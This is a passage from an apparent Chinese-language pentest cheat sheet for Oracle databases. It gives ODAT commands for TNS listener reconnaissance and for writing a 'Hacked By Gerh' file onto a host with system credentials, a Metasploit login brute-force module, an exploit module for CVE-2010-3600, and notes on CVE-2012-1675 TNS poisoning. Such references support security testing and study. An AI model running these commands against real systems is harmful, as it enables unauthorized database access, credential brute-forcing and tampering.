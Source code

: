     # 信息收集
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --ping
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --version
    python3 odat.py tnscmd -s 192.168.1.254 -p 1521 --status

    # 写文件
    echo "Hacked By Gerh" > /tmp/File-Test.txt
    python3 odat.py dbmsxslprocessor -s 192.168.1.254 -p 1521 -d ORA19C -U system -P Test1234 --putFile "/tmp" "File-Test.txt" "/tmp/File-Test.txt"
    ```

**MSF 爆破**
```bash
use admin/oracle/oracle_login
set RHOSTS [IP]
set SID [SID]
run
```

**CVE-2010-3600 Oracle Enterprise Manager Grid Control JSP 代码执行漏洞**
- 简介

    Oracle Database Server 11.1.0.7 和 11.2.0.1 版本，以及 Enterprise Manager Grid Control 10.2.0.5 版本的 Client System Analyzer 组件中存在未明漏洞。远程攻击者可借助未知向量影响机密性、完整性和可用性。

- 影响版本
    - Oracle:Enterprise_manager_grid_control:10.2.0.5:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:11.2.0.1:::

- MSF 模块
    ```bash
    use exploit/windows/oracle/client_system_analyzer_upload
    ```

**CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
- 简介

    Oracle Database Server 在实现上存在可允许攻击者向远程“TNS Listener”组件处理的数据投毒的漏洞。攻击者可利用此漏洞将数据库服务器的合法“TNS Listener”组件中的数据转向到攻击者控制的系统，导致控制远程组件的数据库实例，造成组件和合法数据库之间的攻击者攻击、会话劫持或拒绝服务攻击。

- 影响版本
    - Oracle:Database_server:11.2.0.4:::
    - Oracle:Database_server:11.2.0.3:::
    - Oracle:Database_server:11.2.0.2:::
    - Oracle:Database_server:11.1.0.7:::
    - Oracle:Database_server:10.2.0.5:::

- 相关文章
    - [Oracle TNS Listener Remote Poisoning](http://www.cnblogs.com/zhuxr/p/9618512.html)
    - [ORACLE TNS Listener远程注册投毒（Poison Attack）漏洞](https://blog.csdn.net/wengtf/article/details/46632405)
